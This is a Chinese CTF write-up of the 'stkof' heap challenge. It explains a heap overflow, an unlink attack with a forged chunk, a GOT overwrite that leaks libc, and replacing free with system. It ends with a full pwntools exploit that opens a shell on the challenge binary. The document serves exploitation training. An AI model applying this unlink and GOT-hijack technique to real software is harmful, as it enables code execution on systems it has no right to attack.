

## 0x001 程序分析

首先查看程序开启了哪些保护模式：


使用IDA对程序进行分析，可知这是一道堆方面的题，程序提供了对堆的创建、编辑、删除、显示功能。

**创建**



根据输入的长度创建一块堆区，并将堆区的地址记录在全局管理表中。

**编辑**


对创建的堆区进行编辑。

**删除**


释放要删除的堆区，并将全局管理表中的内容置0。

**显示**


只使用puts打印了固定字符串，没有打印堆区内容。

## 0x002 漏洞分析

根据上述对反汇编结果的分析可知，在对堆区进行编辑的时候，未对输入字符串的长度进行限制，导致输入的内容可以超过申请的堆区长度，造成堆溢出。

## 0x003 漏洞利用

由于程序存在堆溢出漏洞，并且含有堆的全局管理表，因此可以使用unlink进行漏洞利用。

程序未给出system函数的地址，需要利用puts函数泄露真实地址，但是在显示功能里并未对堆区内容进行输出，所以需要先将strlen函数的真实地址改为puts函数的plt地址。

先申请四块堆区
```
create_note(0x20)       # chunk0
create_note(0x30)       # chunk1
create_note(0x80)       # chunk2
create_note(0x10)       # chunk3
```

chunk0是为了填充堆区，使后面申请的堆区相连（大多数题目中都会有setbuf()/setvbuf()函数，其作用是用来关闭I/O缓冲区，本题没有关闭缓冲区，函数运行开始阶段在fgets()函数以及printf()函数运行的时候，会malloc()两块内存区域）

chunk1、chunk2是用来做unlink的，并且chunk2必须不在fastbin的范围中，不然free操作的时候不会向前合并空闲内存。

chunk3是为了保证第三个堆块不位于top chunk。

此时堆区内容如下：


接下来通过编辑chunk1伪造堆块，
```
ptr_addr = 0x602150
fake_chunk = p64(0) + p64(0x31)
fake_chunk += p64(ptr_addr-0x18) + p64(ptr_addr-0x10)
fake_chunk += p64(0) + p64(0)
fake_chunk += p64(0x30) + p64(0x90)

write_note(2, fake_chunk)
```

这里是伪造了一个已经被释放的堆块，包含了伪造的prev_size、size、fd、bk，最后修改chunk3的prev_size、size，这样在释放chunk3的时候就可以绕过unlink的第一重校验。

第二重校验的绕过需要构造fd和bk，使 **fd+0x18 == bk+0x10**，如果设置目标地址为 **ptr_addr**，则fd和bk中的内容就是 **ptr_addr-0x18** 和 **ptr_addr-0x10**。

此时的堆区内容如下：


由于我们的目标是将全局堆管理表中存放chunk1地址的内容修改为全局堆管理表的地址，这样就可以对全局堆管理表进行编辑管理，因此需要将目标地址设置为 **ptr_addr=0x602150**。接着释放chunk2，触发unlink合并堆块，就可以将 **ptr_addr** 中的内容设置为  **ptr_addr-0x18** 也就是 **0x602138**。

此时的堆区内容如下：


可以看到，已经将0x602150处的内容修改为了0x602138，也就是说，现在已经可以通过编辑chunk1来操作全局堆管理表。

接下来通过编辑chunk1，将全局堆管理表的[0]和[1]修改为strlen函数的got地址和free函数的got地址，然后通过编辑全局堆管理表的[0]，将strlen函数的真实地址改为puts函数的plt地址。
```
payload = p64(0) + p64(elf.got["strlen"]) + p64(elf.got["free"])
write_note(2, payload)
write_note(0, p64(elf.plt["puts"]))
```

此时就可以利用显示功能函数中的 **strlen(::s[v1])** 来打印free函数的真实地址，即可计算出system函数的真实地址。

最后通过编辑全局堆管理表的[1]，将free函数的真实地址改为system函数的真实地址，既可完成漏洞利用。

最终exp如下：
```
from pwn import *

p = process("./stkof")
elf = ELF("./stkof")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

ptr_addr = 0x602150

def create_note(plen):
    p.sendline("1")
    p.sendline(str(plen))
    p.recvuntil("OK\n")

def write_note(idx, payload):
    p.sendline("2")
    p.sendline(str(idx))
    p.sendline(str(len(payload)))
    p.send(payload)
    p.recvuntil("OK\n")

def drop_note(idx):
    p.sendline("3")
    p.sendline(str(idx))

def show_note(idx):
    p.sendline("4")
    p.sendline(str(idx))
    
create_note(0x20)
create_note(0x30)
create_note(0x80)
create_note(0x10)

fake_chunk = p64(0) + p64(0x31)
fake_chunk += p64(ptr_addr-0x18) + p64(ptr_addr-0x10)
fake_chunk += p64(0) + p64(0)
fake_chunk += p64(0x30) + p64(0x90)

write_note(2, fake_chunk)

drop_note(3)

payload = p64(0) + p64(elf.got["strlen"]) + p64(elf.got["free"])
write_note(2, payload)
write_note(0, p64(elf.plt["puts"]))

show_note(1)

p.recvuntil("OK\n")
free_addr = u64(p.recv(6).ljust(8, b'\x00'))

libc_base = free_addr - libc.symbols['free']
system_addr = libc_base + libc.symbols['system']

write_note(1, p64(system_addr))

payload = b"/bin/sh\x00"
write_note(4, payload)

drop_note(4)

p.interactive()
```